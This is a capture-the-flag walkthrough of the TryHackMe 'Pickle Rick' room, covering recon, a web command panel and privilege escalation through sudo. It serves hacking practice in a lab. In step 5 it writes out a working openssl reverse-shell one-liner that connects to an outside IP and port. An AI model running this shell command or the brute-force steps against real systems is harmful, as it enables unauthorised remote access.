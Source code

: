 # Pickle Rick

---

Machine by [ar33zy](https://tryhackme.com/p/ar33zy)

[Tryhackme link](https://tryhackme.com/room/picklerick)

---

Tools Used:

- Kali Linux
- NMAP
- gobuster
- dirbuster
- ncat


---

1.  Nmap Scan

    We'll scan the IP to see what services are running, first, let's visit the website.

    ![](img/picklerick01.png)

2. Website 

    After visiting the website, we can't see anything that gives out any clues or ingridient.

    After visiting the source code we can see the following, a username, we may be able to use a dictionary attack on ssh:

    ![](img/picklerick02.png)

    After a little test with hydra, we can see that the server doesn't allow password access (only with public keys):

    ![](img/picklerick03.png)

3. gobuster & dirbuster

    I've tried to use gobuster to list the available directories and some files on the webserver, i could find a assets folder with a bunch of pics, i ran binwalk on all of them but none resulted in any clues.

    
    ![](img/picklerick04.png)

    The `robots.txt` file has a wierd text, i'll save it for later maybe: 

    ![](img/picklerick05.png)

    After no successful clues i turned to dirbuster to look for php files, and found a `login.php`:

    ![](img/picklerick06.png)

4. Web login

    We can see a login portal, for wich i'll use the user `R1ckRul3s` and password `Wubbalubbadubdub` that we found previously:

    ![](img/picklerick07.png)

    And after logging in we can see the next command prompt, we are executing commands as `www-data` so we'll have limited access (all the other links on the navbar seem to lead to a dead end for the moment, so i'll ignore them):

    ![](img/picklerick08.png)

5. Reverse Shell access

    Then i'll attempt to use a reverse shell that exploits openSSL from [this](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#openssl) website.
   
    `mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.8.32.220:4242 > /tmp/s; rm /tmp/s`

    ![](img/picklerick09.png)

    As we can see we've got access to the machine:

    ![](img/picklerick10.png)

6. First Flag

    We can see that there is a .txt file, if we cat that we can see the first flag:

    ![](img/picklerick11.png)

7. Second Flag

    After entering the `/home/` folder we see a couple of user's homes, ubuntu doesn't contain any visible file, but rick does, and there we can find the second flag:

    ![](img/picklerick12.png)

8. Third Flag

    Since we have a reverse shell access, let's try `sudo -l` to see if we have permissions on something:

    ![](img/picklerick13.png)

    As we can see, we've got permissions on all commands without password.

    So let's use sudo to see the contents of user root home folder, and we can see the third flag:

    ![](img/picklerick14.png)